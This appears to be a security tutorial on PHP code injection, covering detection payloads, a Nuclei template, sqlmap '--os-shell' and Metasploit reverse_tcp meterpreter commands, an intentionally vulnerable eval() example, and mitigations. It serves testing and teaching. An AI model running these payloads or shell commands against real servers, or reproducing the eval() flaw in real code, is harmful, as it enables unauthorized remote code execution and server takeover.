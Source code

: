 ## PHP Code Injection?

PHP Code Injection is a vulnerability that allows an attacker to execute arbitrary PHP code on a server by injecting malicious input. This usually happens when **user input is improperly handled** and passed to functions like `eval()`, `system()`, `exec()`, or `include()`.

### How It Works

An attacker can manipulate input parameters to execute unintended PHP commands, leading to:

- Data leakage (accessing sensitive files)
- System command execution (gaining control of the server)
- Complete server compromise

### How to detect the vulnerability

### **Manual PHP Code Injection Detection**  
PHP code injection occurs when user input is executed as PHP code due to insufficient input validation. Here’s how you can detect it manually:

#### **1. Input-Based Testing**  
Try injecting PHP code into input fields, URLs, or HTTP headers. Some common test payloads:  
```php
<?php phpinfo(); ?>
<?= system('id'); ?>
<?php echo shell_exec('ls -la'); ?>
```
- If the output reveals system details or command execution, the application is vulnerable.

#### **2. Observing Unexpected Behavior**  
- If a PHP syntax error appears in the response, it might indicate code injection.  
- If the application behaves unexpectedly (e.g., long response times), it might be executing injected code.

#### **3. Testing with File Inclusion**  
If the application includes files dynamically, try injecting:  
```
http://example.com/index.php?page=data://text/plain,<?php system('id'); ?>
```
This abuses PHP’s `data://` wrapper to execute code.

#### **4. Checking for Log or Eval Execution**  
- If user input is logged and later evaluated (`eval`, `assert`, `preg_replace('/.*/e', ...)`), injecting PHP code into logs could lead to execution.

---

### **Automated PHP Code Injection Detection**  
Automation helps speed up testing and ensures broader coverage. Some tools include:

#### **1. Burp Suite (Intruder & Scanner)**  
- Use Burp Intruder to inject PHP payloads in various parameters.  
- Burp’s Active Scanner can detect potential PHP code execution vulnerabilities.

#### **2. Nuclei (Automation Framework)**  
Use **Nuclei** with a PHP injection template to scan multiple endpoints:  
```yaml
id: php-code-injection  
info:  
  name: PHP Code Injection  
  severity: high  
requests:  
  - method: GET  
    path:  
      - "{{BaseURL}}/vulnerable.php?param=<?php system('id'); ?>"  
    matchers:  
      - type: word  
        part: body  
        words:  
          - "uid="  
```
Run it with:  
```bash
nuclei -t php-code-injection.yaml -u http://example.com
```

#### **3. SQLmap (For PHP Code Execution via SQL Injection)**  
If an application is vulnerable to SQL injection, SQLmap can be used for RCE:  
```bash
sqlmap -u "http://example.com/index.php?id=1" --os-shell
```

#### **4. Metasploit (PHP Code Injection Exploit)**  
```bash
use exploit/multi/http/php_eval
set RHOSTS target.com
set PAYLOAD php/meterpreter/reverse_tcp
exploit
```

#### **5. WPScan (For WordPress PHP Injection)**  
If testing a WordPress site, WPScan can check for PHP execution vulnerabilities:  
```bash
wpscan --url http://example.com --enumerate vp
```



### Example of PHP Code Injection Vulnerability

A poorly secured script might include:

```
if (isset($_GET['cmd'])) {
    eval($_GET['cmd']); // ⚠ Vulnerable to code injection
}
 
```

An attacker could execute:

```
http://127.0.0.1/phpcode.php?cmd=phpinfo()](http://example.com/vuln.php?cmd=phpinfo()) 
```

or even execute system commands if `eval()` allows it:

```
http://127.0.0.1/phpcode.php?cmd=system('ls');
```

### **Mitigation Strategies**

To prevent PHP Code Injection:

 **Avoid `eval()` and similar functions**

 **Use allowlists** (Only permit specific commands)

 **Sanitize and validate input**

 **Use prepared statements for database queries**

 **Disable dangerous PHP functions in `php.ini`**

 **disable exec(), shell_exec(), passthru(), and system() functions in PHP configuration unless it is absolutely necessary to use them. You can also create a whitelist of accepted commands/arguments.**
